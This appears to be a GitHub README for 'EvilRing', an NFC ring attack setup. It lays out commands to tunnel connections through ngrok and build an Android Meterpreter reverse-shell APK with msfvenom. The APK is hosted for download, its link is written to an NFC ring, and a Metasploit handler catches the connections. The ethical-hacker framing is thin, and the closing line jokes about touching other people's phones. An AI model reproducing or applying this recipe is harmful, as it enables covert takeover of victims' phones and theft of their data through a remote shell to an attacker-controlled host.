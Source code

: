 # EvilRing
EvilRing: An NFC Ring for ethical hackers

Setup:
1. 
Install ngrok using the following commands:
  
`wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz
tar -xzvf ngrok-v3-stable-linux-amd64.tgz
chmod +x ngrok
sudo mv ngrok /usr/local/bin/ngrok
rm ngrok-v3-stable-linux-amd64.tgz
ngrok config add-authtoken YOUR-AUTH-TOKEN-HERE`

2.
Create an ngrok TCP tunnel
(Free Version)

`ngrok tcp 4242`

(Paid Version) - Recommended
Start your reserved TCP tunnel from ngrok dashboard and then connect to it from your terminal. 
This way the connection is persistent anywhere in the world. 
Replace the stars with your specific ngrok address and port number. 4242 will be the port we listen to locally for connections on metasploit.

`ngrok tcp --region=us --remote-addr=*.tcp.ngrok.io:* 4242`

3.
Generate your payload with msfvenom, change the ngrok variables:
  
`msfvenom -p android/meterpreter/reverse_tcp LHOST=<ngrok tunnel ip> LPORT=<ngrok tunnel port> -o evilring.apk`

4.
Serve your file from a direct-download link (like python3 httpserver and another ngrok tunnel for toss-away file host):
  
`python3 -m http.server 8080
./ngrok http 8080`

5.
Copy your direct download link to your NFC ring (http://***.***/evilring.apk)
This can be done with the proxmark3, chameleon tiny, or even just an NFC enabled device using the NFC Tools app.

6.
On your command and control open msfconsole:
  
`msfconsole -q

(inside msfconsole) 
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 4242
run`
  
7. 
(Dont) go an hold onto some phones!

